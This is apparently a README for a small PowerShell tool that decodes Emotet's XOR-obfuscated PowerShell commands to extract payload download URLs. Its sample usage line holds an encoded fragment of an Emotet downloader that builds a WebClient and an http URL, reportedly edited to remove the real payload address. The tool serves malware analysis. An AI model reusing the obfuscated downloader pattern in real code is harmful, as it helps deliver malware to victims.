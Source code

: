 # Emotet-Decode
Use to extract the Payload URL's from the Obfuscated Powershell command

********Sample below is editied to remove the Payload URL's and is an example only***********

Sample Usage: .\decode.ps1 (( 49 , 111,66 , 65 ,40,123,112, 98,56 , 122 ,119, 127,112 , 118 , 97, 53,91 , 112 ,97,59 ,66 , 112,119,86 ,121, 124, 112, 123, 97, 46, 49 , 111 , 64 , 65 , 40 , 50 ,125,97 ,97 ,101 ,47 ,58 , 58, 123,114 ,112,123 , 116 ,59 , 118 ,122,59,111 103 ,90, 60,46,70, 97 , 116 ,103 , 97,56 ,69, 103, 122,118 , 112,102, 102, 53, 49,101,103 ,90 , 46 ,119 , 103, 112 , 116, 126 ,46,104,118, 116 ,97, 118 , 125, 110, 104 ,104)|foREACh-oBJeCT { [CHAr] ($_ -BxOr'0x15') } )



This tool is provided for research purposes and only to be used for that purpose. I am not responsible for any malicious use of this tool.
